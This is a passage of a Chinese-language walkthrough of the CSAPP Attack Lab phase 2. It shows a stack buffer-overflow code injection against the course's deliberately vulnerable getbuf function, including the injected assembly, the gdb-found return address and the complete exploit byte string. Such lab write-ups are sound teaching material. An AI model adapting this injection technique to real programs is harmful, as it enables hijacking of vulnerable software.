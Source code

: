 - 确定注入代码的地址。代码应该存在`getbuf`分配的栈中，地址为`getbuf`函数中的栈顶

### 注入代码

查到`touch2`代码地址为：`0x4017c0`，由上述思路，得代码如下：

```assembly
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

利用`gdb`在`getbuf`分配栈帧后打断点，查看栈顶指针的位置

![image-20220304175128141](https://cdn.jsdelivr.net/gh/Deconx/ImgHosting/Deconx-pic/image-20220304175128141.png)

`0x5561dc78`这就是我们应该修改的返回地址

### 栈帧讲解

按照我们的思路，输入字符串后的栈帧应该是这样的

![image-20220305095954954](https://cdn.jsdelivr.net/gh/Deconx/ImgHosting/Deconx-pic/image-20220305095954954.png)

逻辑如下：

- `getbuf`执行`ret`指令后，注入代码的地址从栈中弹出
- 程序执行我们编写的代码，当再次执行`ret`后，从栈中弹出的就是我们压入的`touch2`函数的地址，成功跳转

### Solution

先将我们的汇编代码保存到一个`.s`文件中，接下来利用如下指令

```bash
gcc -c injectcode.s
objdump -d injectcode.o > injectcode.d
```

得到字节级表示

```assembly
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

将这段代码放到40个字节中的开头，代码地址放到末尾。于是就得到我们的输入为：

```bash
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
